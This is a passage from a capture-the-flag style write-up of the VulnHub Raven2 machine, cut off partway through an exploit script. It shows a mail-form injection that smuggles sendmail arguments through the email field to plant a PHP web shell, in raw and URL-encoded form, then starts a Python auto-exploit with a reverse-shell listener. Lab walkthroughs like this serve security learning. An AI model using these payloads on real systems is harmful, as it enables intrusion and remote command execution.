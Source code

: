 So, with the burpsuite request we mount our payload

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-11-VulnHub-Raven2/2021-11-11-VulnHub-Raven2%2008:26:48.png)

```
name=Hacker
email="hacker\" -oQ/tmp -X/var/www/html/shell.php rce"@rce.com
message=<?php echo shell_exec($_REQUEST['cmd']); ?>
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-11-VulnHub-Raven2/2021-11-11-VulnHub-Raven2%2008:53:18.png)

```
action=submit&name=0x4rt3mis&email="hacker\"+-oQ/tmp+-X/var/www/html/shella.php+rce"@rce.com&subject=Testing&message=<?php+echo+shell_exec($_REQUEST['cmd']);+?>
```

And we got RCE

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-11-VulnHub-Raven2/2021-11-11-VulnHub-Raven2%2008:53:35.png)

Now, let's automate it to get the full reverse shell

# Auto Reverse Shell

Here it is

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-11-VulnHub-Raven2/2021-11-11-VulnHub-Raven2%2008:59:41.png)

raven_auto.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto exploit for Raven2 - VulnHub

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import base64
import urllib.parse

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()
  
# Function to just send the mail
def sendMail(rhost):
    print("[+] Let's send the malicious PHP !! [+]")
    url = "http://%s:80/contact.php" %rhost
```